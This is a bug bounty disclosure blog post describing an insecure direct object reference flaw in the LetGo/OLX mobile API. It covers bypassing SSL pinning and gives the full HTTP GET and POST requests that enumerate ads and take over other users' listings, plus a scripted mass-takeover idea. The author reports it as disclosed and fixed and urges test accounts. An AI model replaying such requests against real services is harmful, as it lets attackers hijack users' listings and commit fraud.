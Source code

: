 ```yaml
---
layout: post
title:  "Taking over every Ad on OLX (automated), an IDOR story"
date:   2017-10-18 15:30:00 +0200
categories: bugbounty idor
---
```

# Public disclosure #
Hi again! Thank you for reading my third blog post. Happy to share all the details with you on the Insecure Direct Object Reference attack (IDOR) as mentioned in my first blog. It has been resolved by OLX and publicly disclosed on HackerOne, meaning it's time for a write-up!

# Some context #
OLX powers the LetGo website for a couple of countries including The Netherlands. LetGo is an eBay like website, allowing you to buy new stuff and let go of old stuff.

You can probably imagine the excitement I felt finding out I could take over an ad uploaded by someone else and change the pricing and details. The changes will have to go through a manual approval process, but from my repeated experience this ends up fine. Especially for example changing prices from 40 to 35 euros will always go through. Also it appears that after several approvals my account got whitelisted and approvals were not required anymore.

Because there was no rate limiting in place and the API supported walking through the full listing of all the ads, there was a potential for building a small script that does exactly that. Loop all the ads, take over each ad, change the pricing. This way it was possible to take over the entire collection of ads on the website.

Of course it's not a good idea to actually do so, no need to prove anything this severe and cause damage. So right after verifying the initial IDOR and the moment I saw the potential I reported the issue. Also note that I did not take over any ads that were not mine: always use multiple test accounts! Safety first.

# How I found the IDOR #
Having OLX permission: full disclosure time!

First of all we need to proxy the traffic coming from the iOS / Android apps. This traffic is SSL encrypted which is fine: just import the CA BurpSuite provisions for you. But nowadays some apps implement SSL pinning, meaning the BurpSuite CA does not work out of the box. You can bypass this added layer of protection by unpinning SSL. One way would be reverse engineering the app and patching out the checks, but a much easier way is to unpin system wide.

So I have set up both a jailbroken iPad with SSL pinning disabled (using a cydia app) and an Android phone with SSL pinning disabled (using an Xposed module). This way you can always intercept traffic using a proxy like BurpSuite and (almost) any app. Note that you can just as easily set up Android emulators to accomplish the same goal (try genymotion or android studio).

By intercepting the API calls during browsing of your iOS and Android apps, you can learn about-, change- and repeat API calls.

Setup test accounts:
- Android account: token '111111'
- iOS     account: token '222222'

ACCOUNT\_1:
1. Post a new ad using token '111111' (returns the ID, in this test case: 888888).
2. Wait for approval
3. Approved and published on site

ACCOUNT\_2:
1. Fetch advertisement list through a search api call
2. Attack an ad by doing a POST call (picked the newly posted 888888 here).
3. The takeover of the ad is instant: it's now in ACCOUNT\_2, not in ACCOUNT\_1 anymore
4. Wait for approval
5. Approved and published on site with my changes

The attack - using ACCOUNT\_2 - involves two api calls: GET /i2/ajax/ads/ (to get id's) and POST /i2/newadding/ (to take over and make changes).

The GET call lists all the ads including id's (paginated) and looks like this:

{% highlight html %}
GET /i2/ajax/ads/?json=1&app\_ios=285&brand=Letgo&client=ios&version=285&token=222222&location=1,1&lang=en&search%5Blat%5D=1&search%5Blon%5D=1&search%5Border%5D=dist&search%5Bdistance%5D=20000 HTTP/1.1
Host: letgonl-a.akamaihd.net
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (Linux; U; Android 2.2; en-us; Droid Build/FRG22D) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1           Accept-Language: en-NL;q=1.0, nl-NL;q=0.9
X-Origin-OLX: production
{% endhighlight %}

The POST call - the actual attack / IDOR - looks like this:

{% highlight html %}
POST /i2/newadding/?json=1&app_ios=285&brand=Letgo&client=ios&version=285&token=222222&location=1,1&lang=en HTTP/1.1
Host: letgonl-a.akamaihd.net
Content-Type: application/json
Content-Length: 222
Accept: */*
Connection: close
User-Agent: Mozilla/5.0 (Linux; U; Android 2.2; en-us; Droid Build/FRG22D) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1
Accept-Language: en-NL;q=1.0, nl-NL;q=0.9
X-Origin-OLX: production

{"ad_id":888888,"params":{"price":"35"},"description":"This is awesome","person":"nickname","title":"My title","category_id":"800","locations":[{"map_lon":1,"map_lat":2}]}
{% endhighlight %}

Note that I'm just repeating the GET and POST calls I intercepted, replacing the token from ACCOUNT\_1 with the token from ACCOUNT\_2.

Again I would like to emphasize you must always use test accounts, never cause damage, think before you act. It's a lot of fun, but it's not a game!

My suggested fix was: 'The update POST call does check for something like "is\_authenticated()" but it appears it does not check for "is\_authorized()", which in turn could implement something like "is\_owner()".'

# Lessons learned #
1. Focus on bug bounty programs with a good track record. Chasing should not be nescessary, it's a two way street. And #NoFreeBugs.
2. Know when to stop attacking one specific issue or platform. Got stuck? Keep on moving! Write down your notes on what you have found so far and come back later.

Let's keep on hacking!

Cheers,
kciredor

{% twitter https://twitter.com/kciredor_/status/920647329652371456 %}

